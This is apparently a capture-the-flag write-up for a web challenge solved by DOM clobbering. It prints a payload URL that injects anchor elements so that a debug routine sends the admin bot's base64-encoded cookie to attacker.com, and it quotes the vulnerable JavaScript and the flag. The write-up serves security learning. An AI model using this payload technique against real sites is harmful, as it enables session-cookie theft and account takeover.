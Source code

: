 * Lets Define that!

Payload:
```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=https://google.com/"><a id="DEBUG_MODE"><a id="DEBUG_LOGGING_URL" href="https://attacker.com">
```
* Here, Href is Used to set a value for the 
`DEBUG_LOGGING_URL`.

<img src="https://i.imgur.com/lWnC7G7.png">

* No Errors in Javascript Console!!

* Upon Looking the Network Tab,

<img src="https://i.imgur.com/ZMFYTv4.png">

* A GET Request to Attacker.com with `?auth=&image=(base64(imageURL))`

```js
if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
```
* `?auth` contains base64 Encoded cookie. Now, We dont Have any Cookies, So the The `?auth=` is Empty.

* Flag in the Admin bot cookie. In order to Get the Cookie, Send the about Payload to the Bot to get the Flag

>## flag: wsc{d0m_cl0bb3r1ng_15_fun}
